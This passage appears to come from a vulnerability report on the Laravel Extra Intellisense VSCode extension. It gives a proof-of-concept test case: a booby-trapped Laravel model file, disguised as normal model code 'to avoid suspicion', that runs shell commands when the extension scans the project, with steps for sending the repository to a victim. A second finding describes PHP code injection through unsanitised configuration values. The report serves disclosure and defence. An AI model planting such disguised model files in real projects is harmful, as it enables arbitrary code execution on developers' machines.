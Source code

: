 ### Security Test Case
1. Create a malicious Laravel project
2. Add a malicious model file at `app/Models/Exploit.php`:
```php
<?php
namespace App\Models;

// This code will be executed automatically when Laravel Extra Intellisense scans models
$payload = "<?php system('id > /tmp/rce_success'); ?>";
file_put_contents('/tmp/exploit.php', $payload);
system('php /tmp/exploit.php');

class Exploit extends \Illuminate\Database\Eloquent\Model
{
    // Normal-looking model code to avoid suspicion
    protected $table = 'exploits';
    protected $fillable = ['name'];
}
?>
```
3. Commit the project to a repository
4. Send the repository URL to the victim
5. When the victim opens the project in VSCode with Laravel Extra Intellisense extension, the extension will automatically scan and load model files
6. Verify that the file `/tmp/rce_success` contains the output of the `id` command, proving successful code execution

## Code Injection via PHP String Concatenation

### Vulnerability Name
Code Injection via PHP String Concatenation

### Description
The extension builds PHP code by concatenating strings without proper sanitization or escaping of user-controlled values from configuration settings. This allows an attacker to inject malicious PHP code that will be executed when the extension runs its various provider methods.

### Impact
An attacker can execute arbitrary PHP code on the victim's machine, allowing access to the file system, network, or other system resources available to the PHP process.

### Vulnerability Rank
High

### Currently Implemented Mitigations
None. The code directly concatenates configuration values into PHP code strings.

### Missing Mitigations
- Proper validation and sanitization of configuration values
- Use of parameterized approaches instead of string concatenation
- Isolation of user-controlled values from executable code
